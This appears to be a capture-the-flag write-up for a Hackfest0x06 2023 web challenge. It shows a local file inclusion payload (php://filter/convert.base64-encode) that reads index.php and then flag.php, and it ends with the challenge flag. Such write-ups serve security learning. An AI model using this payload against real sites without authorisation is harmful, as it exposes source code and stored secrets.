





#Hackfest0x06 quals 2023
> you C nothing, but There's a Flag.

## About the Challenge
Based on the challenge description, there are no suspicious clues. Let's see that.

## How to solve?
If you pay attention to the challenge title, it might refer to a clue, namely `LFI`, hmm...



Yep, that's right, that's LFI Vulnerability. Let's just try the parameters:

```
php://filter/convert.base64-encode/resource=index
```



Yep, we get the result in the form of a base64 code, here are the prefixes:
```
PGgxPlBlbmdlcnRpYW4gTEZJPC9oMT4KPHA+ ...
```



After we decode it, it turns out that it is the base64 code from the index.php page, and there is `include 'flag.php';`

```
php://filter/convert.base64-encode/resource=flag
```
We try again to enter the payload in the parameters and we decode it again.





And yap, we get the flag.

```
Hackfest0x06{VulN3rr_W3b_S4lah_s4Tu_Ny4_Y44_Lfi}
```
